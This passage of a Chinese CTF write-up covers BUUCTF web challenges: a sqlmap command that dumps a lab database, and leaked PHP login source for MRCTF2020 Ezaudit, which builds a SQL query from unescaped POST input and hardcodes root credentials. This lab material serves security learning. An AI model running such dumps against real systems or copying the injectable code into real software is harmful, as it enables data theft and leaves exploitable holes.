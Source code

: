 抓包发现可疑参数，合理怀疑是sql注入

![image-20221226120926531](four.assets/image-20221226120926531.png)

成功回显

直接上**sqlmap**

```bash
sqlmap -u http://60f10a76-08b9-4726-9449-bbcfe4ab6db0.node4.buuoj.cn:81/query?search=olympus_mons -D alien_code -T code --dump
```

## [GKCTF 2021]easycms

一个cms，以后审cms的时候统一审了





## [MRCTF2020]Ezaudit

`www.zip`源码泄露

```php
<?php 
header('Content-type:text/html; charset=utf-8');
error_reporting(0);
if(isset($_POST['login'])){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $Private_key = $_POST['Private_key'];
    if (($username == '') || ($password == '') ||($Private_key == '')) {
        // 若为空,视为未填写,提示错误,并3秒后返回登录界面
        header('refresh:2; url=login.html');
        echo "用户名、密码、密钥不能为空啦,crispr会让你在2秒后跳转到登录界面的!";
        exit;
}
    else if($Private_key != '*************' )
    {
        header('refresh:2; url=login.html');
        echo "假密钥，咋会让你登录?crispr会让你在2秒后跳转到登录界面的!";
        exit;
    }

    else{
        if($Private_key === '************'){
        $getuser = "SELECT flag FROM user WHERE username= 'crispr' AND password = '$password'".';'; 
        $link=mysql_connect("localhost","root","root");
        mysql_select_db("test",$link);
        $result = mysql_query($getuser);
```
